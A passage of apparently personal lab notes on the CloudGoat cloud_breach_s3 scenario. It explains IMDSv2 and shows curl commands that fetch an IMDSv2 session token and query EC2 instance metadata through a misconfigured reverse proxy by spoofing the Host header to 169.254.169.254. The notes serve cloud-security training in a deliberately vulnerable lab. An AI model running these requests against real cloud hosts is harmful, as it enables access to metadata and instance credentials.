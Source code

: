 IMDSv2
- a defence in depth
- against open firewalls and SSRF vulnerabilities.
- IMDSv2 needs a session token for making any request to the service.
- This token can only be obtained by making a specific request using the HTTP PUT method.
- [IMDSv2](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)

Although IMDSv2 effectively mitigates most SSRF attacks
- it still cannot mitigate security issues like mis-configured reverse-proxy servers such as the one we exploited.


```bash
# -------- 1. setup
# upgrade the vulnerable EC2 instance from IMDSv1 to IMDSv2.
# need the latest AWS CLI ( >=1.16.287) that supports IMDSv2.
# using cloudgoat profile (Admin user) to update EC2 instance from IMDSv1 to IMDSv2.

pip3 install awscli
pip3 upgrade awscli

aws ec2 modify-instance-metadata-options \
    --instance-id <INSTANCE-ID> \
    --profile cloudgoat \
    --http-endpoint enabled \
    --http-token required


# -------- 2. exploit IMDS v2 using the mis-configured reverse proxy.
# generate the token for accessing metadata endpoint with the below HTTP PUT request

TOKEN=`curl -X PUT 'https://54.196.109.217/latest/api/token' \
        --H 'X-aws-ec2-metadata-token-ttl-seconds: 21600' \
        --H 'Host:169.254.169.254' `

# use the security token obtained as part of the HTTP request header.
curl -s https://$EC2IP/latest/meta-data/local-ipv4 \
    --H 'X-aws-ec2-metadata-token:$TOKEN' \
    --H 'Host:169.254.169.254'
# 10.10.10.238



# -------- 3. destroy the resources created during this lab:
./cloudgoat.py destroy cloud_breach_s3
```



---



### Scenarios 4: iam_privesc_by_attachment (Medium / Moderate)
